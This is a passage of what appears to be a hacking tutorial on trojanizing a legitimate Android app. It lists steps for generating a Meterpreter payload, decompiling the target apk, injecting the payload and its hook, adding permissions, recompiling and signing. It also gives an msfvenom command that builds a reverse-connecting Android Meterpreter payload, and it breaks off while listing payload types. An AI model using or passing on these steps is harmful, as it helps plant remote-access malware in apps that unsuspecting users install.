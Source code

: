 We will also need some libraries and tools in the following steps, so I think it's better if you install them right now.

To install the required libraries, enter this command at the console:

    
    apt-get install lib32stdc++6 lib32ncurses5 lib32z1


And to get the latest version of ApkTool, head over to [this site](http://ibotpeaches.github.io/Apktool/install/) and follow the installation instructions.

Also download the apk which you want to be backdoor-ed from any source you like. Just do a google search “app_name apk download” and Google will come up with a lot of results. Save that apk in the root folder.


### BRIEF OVERVIEW:


Since this tutorial is a little bit long, I'm giving a brief overview of what we are going to do here.



 	
  1. Generate the Meterpreter payload

 	
  2. Decompile the payload and the original apk

 	
  3. Copy the payload files to the original apk

 	
  4. Inject the hook into the appropriate activity of the original apk

 	
  5. Inject the permissions in the AndroidManifest.xml file

 	
  6. Re-compile the original apk

 	
  7. Sign the apk using Jarsigner


That's about it. I will also show you how can you get a working Meterpreter session using that backdoored apk, if you don't know that already. So let's get started.


### STEP 1: GENERATE THE PAYLOAD:


First of all, we have to make the Meterpreter payload. We are going to use MSFVenom for this. The command is-

    
    msfvenom -p android/meterpreter/[Payload_Type] LHOST=[IP_Address] LPORT=[Incoming_Port] -o meterpreter.apk







 	
      * Replace [Payload_Type] by any of the following payloads available. The function of all these payloads are same, essentially they are all Meterpreter payloads, the difference is only in the method they use to connect to your Kali system. The available [Payload_Type]s are -
